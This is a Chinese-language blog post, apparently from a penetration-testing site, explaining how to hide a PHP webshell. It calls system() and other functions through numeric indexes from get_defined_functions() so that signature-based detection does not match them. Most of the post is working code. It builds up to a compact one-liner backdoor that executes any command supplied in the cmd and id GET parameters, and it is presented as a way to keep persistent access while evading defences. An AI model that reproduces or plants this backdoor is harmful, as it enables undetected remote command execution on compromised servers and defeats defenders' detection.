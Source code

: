 ```yaml
---
layout:     post
title:      "Using get_defined_functions To Hidden A PHP Backdoor"
date:       2017-08-17
categories: [Bypass, Webshell]

---
```


webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。

关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。

![func_arry](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/func_arry.png)

以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：

```php
<?php
function callfunc() {

    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
    $args = func_get_args();  //获取传入参数值
    $func_id = array_shift($args);  //获取传入的函数所代表的list key
    $func_name = $func['internal'][$func_id];  //以key来索引函数名

    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
}
print callfunc(460, "whoami");
?>
```

这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行

![callfunc](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/callfunc.png)

按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样

```php
<?php
function callfunc() {

    $func = get_defined_functions();
    $args = $func['internal'][3]();
    $func_id = $func['internal'][805]($args);
    $func_name = $func['internal'][$func_id];

    return $func['internal'][556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

当然也可以是这样

```php
<?php
function callfunc() {

    $func = get_defined_functions()['internal'];
    $args = $func[3]();
    $func_id = $func[805]($args);
    $func_name = $func[$func_id];
    return $func[556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可

```php
<?php
function f() {

    $a = get_defined_functions()['internal'];
    $s = $a[3]();
    $b = $a[805]($s);
    $c = $a[$b];
    return $a[556]($c, $s);
}
print f(460, 'whoami');
?>
```

**无特征webshell**

最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。

```php
<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
```

![wenshell](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/webshell.png)


